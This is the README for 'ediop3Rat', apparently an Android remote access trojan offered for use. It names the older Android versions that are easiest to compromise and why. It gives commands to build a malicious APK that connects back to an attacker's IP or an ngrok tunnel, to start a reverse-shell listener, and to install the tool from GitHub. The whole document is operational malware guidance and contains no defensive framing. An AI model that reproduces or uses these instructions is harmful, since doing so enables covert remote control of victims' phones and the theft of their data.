# ediop3Rat
A basic rat in Python / java


Best Android versions for this RAT:

4.4 KitKat – Minimal restrictions, easy background access

5.0 Lollipop – Permissions granted at install, no runtime checks

6.0 Marshmallow – Runtime permissions but still lenient

7.0 Nougat – Background limits exist but manageable

8.0 Oreo – Last version where many exploits still work

Why? Older versions lack modern security (runtime permissions, background limits, scoped storage).

To generate an APK and start a shell with all commands:

Generate APK:

Without ngrok:
```
python3 ediop3Rat.py --build -i YOUR_IP -p PORT -o OUTPUT.apk
Example: python3 ediop3Rat.py --build -i 192.168.1.100 -p 4444 -o malware.apk
```
With ngrok (auto-tunnel):
```
python3 ediop3Rat.py --build --ngrok -p PORT -o OUTPUT.apk
Example: python3 ediop3Rat.py --build --ngrok -p 4444 -o malware.apk
```

Start Listener:
```
python3 ediop3Rat.py --shell -i YOUR_IP -p PORT
Example: python3 ediop3Rat.py --shell -i 192.168.1.100 -p 4444
```

## installation
```
git clone https://github.com/ediop3SquadALT/ediop3Rat
cd ediop3Rat
bash setup.sh
python3 ediop3Rat.py
```
